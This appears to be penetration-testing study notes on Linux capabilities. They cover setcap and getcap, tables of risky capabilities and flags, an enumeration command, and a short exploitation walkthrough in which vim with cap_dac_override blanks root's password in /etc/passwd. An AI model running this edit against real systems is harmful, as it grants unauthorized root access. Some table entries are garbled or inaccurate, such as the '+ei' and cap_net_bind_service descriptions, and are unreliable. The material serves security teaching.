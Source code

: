 Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to **processes**, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.

`setcap` command to set capabilities for specific executables. This command allows us to specify the capability we want to set and the value we want to assign.

#### Set Capability

```shell
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

When capabilities are set for a binary, it means that the binary will be able to perform specific actions that it would not be able to perform without the capabilities. For example, if the `cap_net_bind_service` capability is set for a binary, the binary will be able to bind to network ports, which is a privilege usually restricted.

Some capabilities, such as `cap_sys_admin`, which allows an executable to perform actions with administrative privileges, can be dangerous if they are not used properly. For example, we could exploit them to escalate their privileges, gain access to sensitive information, or perform unauthorized actions.

Therefore, it is crucial to set these types of capabilities for properly sandboxed and isolated executables and avoid granting them unnecessarily.

|**Capability**|**Description**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|

| **Capability Values** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                               |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `=`                   | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.                                                                                                                                                                                                                                        |
| `+ep`                 | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.                                                                                                                                                    |
| `+ei`                 | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.                                                                                                                                    |
| `+p`                  | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |
|                       |                                                                                                                                                                                                                                                                                                                                                                                                                               |
| `cap_setuid`          | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.                                                                                                                                                                                                                                                                                           |
| `cap_setgid`          | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.                                                                                                                                                                                                                                                                                                  |
| `cap_sys_admin`       | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.                                                                                                                                                                                                  |
| `cap_dac_override`    | Allows bypassing of file read, write, and execute permission checks.                                                                                                                                                                                                                                                                                                                                                          |
## Enumerating Capabilities

```shell
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

## Exploitation

#### Exploiting Capabilities

```shell
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

```shell
cat /etc/passwd | head -n1
```

```shell
/usr/bin/vim.basic /etc/passwd
```
```shell
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

```shell
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```





